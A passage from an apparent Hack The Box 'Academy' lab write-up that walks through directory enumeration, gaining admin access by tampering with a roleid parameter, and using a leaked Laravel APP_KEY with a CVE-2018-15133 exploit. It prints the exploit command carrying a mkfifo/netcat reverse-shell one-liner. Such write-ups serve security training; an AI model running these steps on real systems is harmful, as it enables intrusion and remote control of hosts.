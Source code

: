 ```bash
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/home.php (Status: 200)
/register.php (Status: 200)
/admin.php (Status: 200)
/config.php (Status: 200)
Progress: 48339 / 220561 (21.92%)in.php (Status: 200)

```

### admin.php

Accessing `admin.php` noticed that this pace looks very similar to the previous one, but our dummy credentials did not work there. So, remembering from the parameter we saw in the registration form (**roleid**), I decided to create another account but, in this case, tampering with the data sent in the request, replacing 0 by 1 for the mentioned identifier. With this new account, which roleid = **1**, I was able to login to the restricted area and the page below was displayed:

![HTB Academy - Admin Page](https://i.imgur.com/fCI3aBZ.png){: .align-center}

Besides not existing any information hidden in the source code of this page, what called attention was the host **dev-staging-01.academy.htb** which might also be running in this box.

After adding it to the hosts file under the same IP, the page below was shown, which is an error handler framework for PHP, which allows developers to debug code in their code, but in this case, was open and leaking lots of information such as credentials and environment variables.

![HTB Academy - DevStaging](https://i.imgur.com/qzcJmuV.png){: .align-center}

What most called attention to the information leaked was the MySQL credentials and Laravel App_key, which might lead us to an initial foothold in this box.

## Initial Foothold

As we don't have MySQL 3306/TCP open in this box, based on the initial nmap scan, searching a little about what could be done by using the Laravel App_key I came across the [CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133) which can lead to RCE through an unserialized call in some affected Laravel versions. If we were lucky this might work for this box :smiley:.

Doing some search, I have found [this repository](https://github.com/aljavier/exploit_laravel_cve-2018-15133) that implements this exploit in a simple manner, which was the one I have used to get an initial foothold in the box.

```bash
python3 ./pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f"
```

## User flag

After upgrading the reverse shell, first thing to check was the content of the previously enumerated file **config.php**, listed below:
